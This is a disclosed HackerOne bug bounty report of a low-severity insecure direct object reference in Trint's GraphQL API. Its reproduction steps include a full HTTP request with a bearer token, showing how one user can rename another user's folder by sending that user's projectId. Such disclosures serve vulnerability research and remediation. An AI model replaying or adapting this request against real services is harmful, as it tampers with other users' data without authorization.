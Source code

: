 # IDOR to update folder name of other user

## Report Details
- **Report ID**: 587687
- **URL**: https://hackerone.com/reports/587687
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-05-22T08:16:42.265Z
- **Disclosed**: 2019-07-03T11:30:45.848Z

## Reporter
- **Username**: toannc123
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: trint

## Vulnerability Information
###Summary
There is an IDOR to update folder name of other user

###Steps To Reproduce:

- user A login to the application and see the folder name

{F494331}


- user B login to the application and call the API with the **projectId** of user A

```
POST / HTTP/1.1
Host: graphql2.trint.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://app.trint.com/trints
content-type: application/json
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJodHRwczovL2FwcC50cmludC5jb20vaXNOZXdVc2VyIjp0cnVlLCJodHRwczovL2FwcC50cmludC5jb20vdXNlcklkIjoiNWNlNTAyYTIxZTFjYWY3NTBkNmM3ZjU5IiwiaXNzIjoiaHR0cHM6Ly90cmludC5hdXRoMC5jb20vIiwic3ViIjoiZmFjZWJvb2t8NTM5NjM3MDE2NTY4MjUxIiwiYXVkIjoiaWNoNGh5VllQS0tnZUVvVGg2ZldQWGM2ZnJ2ZVRjVHEiLCJpYXQiOjE1NTg1MTIyOTYsImV4cCI6MTU2MDg3Mjg4MH0.umWI5RJnC3bO1NbP5TFI0A37H182U7J0WC3d_5W0xLc
X-Trint-Request-Id: 53c6c888-89a3-402b-b6f5-2dedc3f69aa8
X-Trint-Super-Properties: {"distinct_id":"5ce502a21e1caf750d6c7f59","$device_id":"16ade919a91481-044fc792d93be1-4c312272-1fa400-16ade919a9274","$initial_referrer":"$direct","$initial_referring_domain":"$direct","returningUser":false,"$user_id":"5ce502a21e1caf750d6c7f59"}
Origin: https://app.trint.com
Content-Length: 490
Connection: close

{"operationName":"updateProject","variables":{"userId":"5ce502a21e1caf750d6c7f59","projectName":"abctesthorizontal","projectId":"i2lu5qZVTwWnQQhPp_g8Ig"},"query":"mutation updateProject($userId: String!, $projectName: String!, $projectId: String!) {\n  updateProject(userId: $userId, projectName: $projectName, projectId: $projectId) {\n    ...RenameProjectFragment\n    __typename\n  }\n}\n\nfragment RenameProjectFragment on Project {\n  _id\n  projectName\n  updated\n  __typename\n}\n"}
```

{F494332}


- After that, the folder name of user A is changed

{F494333}

## Impact

An attacker could update folder name of other user.

## Attachments
- Capture1.PNG
- Capture2.PNG
- Capture3.PNG
